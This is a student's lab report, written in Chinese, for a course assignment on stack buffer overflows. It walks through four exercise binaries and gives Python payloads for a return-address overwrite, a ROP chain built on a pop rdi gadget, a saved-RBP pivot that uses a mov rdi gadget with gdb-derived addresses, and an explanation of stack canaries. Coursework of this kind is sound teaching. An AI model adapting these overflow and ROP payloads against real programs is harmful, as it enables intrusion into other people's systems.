





# 栈溢出攻击实验

喻昌霖 2024202865

## 题目解决思路


### Problem 1: 
- **分析**：在IDA pro当中逆向分析problem1，可以看到在主函数里只有一个自定义函数func，且func的参数是待输入的payload。点进这个函数是如下结果：

  ```c
  void __cdecl func(char *s)
  {
    char buffer[8]; // [rsp+18h] [rbp-8h] BYREF
  
    strcpy(buffer, s);
  }
  ```

  因此padding需要填充的是buffer的8个字节和saved rbp的8个字节，共16个字节

  此外在IDA pro的函数列表里面可以找到一个神秘的func1，点进去发现内容是`puts("Yes!I like ICS!");`，因此只需要把返回地址覆盖成func1的地址即可实现输出`Yes!I like ICS!`

- **解决方案**：构造payload如下：

  ```python
  padding = b"A" * 16
  func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"
  payload = padding + func1_address
  with open("ans.txt", "wb") as f:
      f.write(payload)
  print("Payload written to ans.txt")
  ```

  其中`0x401216`是在IDA pro中读取的func1的地址（在Hex View界面选择func1可以得到其地址）

- **结果**：

### Problem 2:
- **分析**：这里实现说了开启了Nx数据不可执行保护，同时在IDA pro中可以发现有两点变化：

  - func函数仍然是8字节，但是它使用了memcpy这个函数

  - `Yes!I like ICS!`所在的函数仍然在0x401216的位置，但是其有一个参数，且只有当参数为1016的时候才会输出`Yes!I like ICS!`

    

  于是只需要按照标准ROP链（因为有Nxenabled）的思路：找到该程序中已有的一句`pop rdi; ret`然后让函数返回地址在这句话的地址（这里在终端输入指令：`ROPgadget --binary your_program | grep -E "pop rdi|ret"`就可找到相关语句所在地址了，这里也即0x4012c7），然后再把1016这个参数值放到payload后面（这样就会被pop出来到rdi里面给func2用了），再把func2的地址放到payload后面就会被ret指令转到func2上了

  

- **解决方案**：

  ```python
  import struct
  
  def p64(x):
      return struct.pack('<Q', x)
  
  padding = b"A" * 16
  
  # ROP 链
  pop_rdi_addr = 0x4012c7
  func2_addr = 0x401216
  arg_value = 1016
  
  payload = padding
  payload += p64(pop_rdi_addr)  # 1. 弹出栈值到 RDI
  payload += p64(arg_value)     # 2. 参数值 1016
  payload += p64(func2_addr)    # 3. 调用 func2
  
  # 填充到 56 字节（memcpy 长度）
  payload = payload.ljust(56, b"\x00")
  
  with open("ans.txt", "wb") as f:
      f.write(payload)
  ```

- **结果**：

  

### Problem 3: 
- **分析**：

  - 这次的func限制拷贝0x40u（即64字节）到缓冲区，故可溢出空间是剩下的32字节。

  - 分析func1得到必须要参数为114的时候才能正确输出，需要让$rdi=114

  - 这次试图用指令搜索含有`pop rdi; ret`的地方，但是没找到

  - 于是在IDA pro的函数列表中查找有没有可用的gadget，找到了0x4012E6的位置，在函数`mov_rdi`中，有一段gadget可以拿来用：

    ```assembly
    .text:00000000004012E6                 mov     rax, [rbp+addr]
    .text:00000000004012EA                 mov     rdi, rax
    .text:00000000004012ED                 retn
    ```

    它可以从`[RBP-8]`读取值到RAX，并将RAX复制到RDI，并返回

  - 因此可以考虑在$rbp-8的位置处放置114，然后使用这个gadget

  - 这要求我们必须能够控制$rbp的值

  - 如果开启了ASLR，接下来的地址都很难搞清楚，这里考虑在gdb中得到最终结果，绕过ASLR

  - 在gdb当中执行程序的时候，使用指令`info registers rbp`可以获取$rbp的值，为0x7fffffffd460

  - 于是可以考虑构造如下内存布局：
    ```
    0x7fffffffd440     [buffer开始] 填充(16字节)
    0x7fffffffd450     参数114(RBP-8的位置所在)
    0x7fffffffd458     填充(8字节)
    0x7fffffffd460     saved RBP = 0x7fffffffd458
    0x7fffffffd468     返回地址 = 0x4012e6 (gadget)
    0x7fffffffd470     func1地址 = 0x401216
    ```

- **解决方案**：

  ```python
  #!/usr/bin/env python3
  import struct
  
  def p64(x):
      return struct.pack('<Q', x)
  
  GADGET_ADDR = 0x4012e6
  FUNC1_ADDR = 0x401216
  ARG_VALUE = 114
  
  # ===== 构造payload =====
  payload = b'A' * 16                    # 0x440-0x44f: 填充
  payload += p64(ARG_VALUE)              # 0x450-0x457: 参数114
  payload += b'B' * 8                    # 0x458-0x45f: 填充
  payload += p64(0x7fffffffd458)         # 0x460-0x467: saved RBP
  payload += p64(GADGET_ADDR)            # 0x468-0x46f: gadget地址
  payload += p64(FUNC1_ADDR)             # 0x470-0x477: func1地址
  payload += b'\x00' * 8                 # 0x478-0x47f: 填充
  
  assert len(payload) == 64              # 与memcpy的长度要求一致
  
  with open('ans.txt', 'wb') as f:
      f.write(payload)
  ```

- **结果**：

  

### Problem 4: 
- **分析**：这里直接找到通关提示`"great!I will give you great scores"`所在的函数func1，经过查看可以发现这个函数在func当中会被调用，调用条件是`"v2 == 1 && a1 == -1"`，而这里a1是func函数的输入，通过计算我们可以得出，当a1=-1的时候，这个函数的v2也会等于1（从-1减了0xFFFFFFFE次变回1），因此只需要保证func函数的输入为-1即可通关

- **解决方案**：无需payload，这里的canary存在于caesar_decrypt函数、func函数以及func1函数当中，在函数体前后在0x28u处读取或比较canary值来完成canary保护，这里以func1中的canary为例：

  ```c
  v1 = __readfsqword(0x28u);
  // 一堆其他代码……
  return v1 - __readfsqword(0x28u);
  ```

  看是不是return 0就知道canary值有没有被改变了

- **结果**：

  

## 思考与总结

这是一个比较简单也比较短的lab，总体感觉作用是让我们熟悉了栈溢出漏洞的常见保护手段以及反制手段，但是其中ASLR可以被绕过，ROP链的构造也没有很难，也没有引入PIE，所以总体感觉还是比较基础的。作为苯人最后一个ics实验，完成它之后我想感谢一学期以来助教们的辛苦付出，我能明显感觉到这几个lab已经是削弱版的了（或者是参考文档给的足够详细），没有很为难我们。提前祝老师和助教们新年快乐！

## 参考资料

IDA pro —— www.hex-rays.com（IDA神中神）

https://chat.deepseek.com

gdb工具
